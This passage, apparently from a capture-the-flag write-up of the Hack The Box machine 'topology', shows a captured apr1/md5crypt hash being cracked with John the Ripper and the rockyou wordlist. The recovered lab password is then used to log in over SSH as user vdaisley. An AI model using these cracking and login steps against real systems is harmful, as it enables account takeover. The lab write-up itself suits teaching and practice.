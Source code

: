 ![hash](/images/topology_hash.png)

> We got a hash for user `vdaisley`!

Lets crack this hash.
```bash
$ cat dev.hash 
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

$ john dev.hash --wordlist=/usr/share/wordlists/rockyou.txt              
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 1.62% (ETA: 22:53:17) 0g/s 135514p/s 135514c/s 135514C/s gloria06..gian23
calculus20       (?)     
1g 0:00:00:07 DONE (2023-06-29 22:51) 0.1366g/s 136008p/s 136008c/s 136008C/s calibabe14..calasag
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

> Yes we cracked the password! `vdaisley:calculus20`

Lets check if we can login using the hash.
```
$ ssh vdaisley@topology.htb
vdaisley@topology.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Jun 30 08:22:11 2023 from 10.10.14.18
-bash-5.0$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
```

---